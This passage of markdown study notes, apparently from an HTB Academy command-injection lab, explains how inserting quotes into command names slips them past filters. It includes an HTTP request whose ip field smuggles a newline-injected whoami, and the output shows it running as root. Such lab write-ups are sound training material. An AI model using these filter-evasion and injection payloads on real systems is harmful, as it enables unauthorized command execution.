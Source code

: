 ## Cross-Platform Obfuscation Techniques

### Quote Injection (Linux & Windows)

> **🔗 Universal Method:** Works on both Bash and PowerShell

**Single Quotes:**
```bash
# Original command
whoami

# Obfuscated with single quotes
w'h'o'am'i
w'ho'ami
wh'o'ami
```

**Double Quotes:**
```bash
# Obfuscated with double quotes  
w"h"o"am"i
w"ho"ami
wh"o"ami
```

**Important Rules:**
- ✅ **Even number** of quotes required
- ✅ **Cannot mix** quote types in same command
- ✅ Works with **any command** (cat, ls, id, etc.)

### HTB Academy Lab Example

**Testing Quote Obfuscation:**
```http
POST /check HTTP/1.1
Content-Type: application/x-www-form-urlencoded

ip=127.0.0.1%0aw'h'o'am'i
```

**Expected Result:**
```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.635 ms
--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss

root
```

---

## Linux-Only Obfuscation Techniques
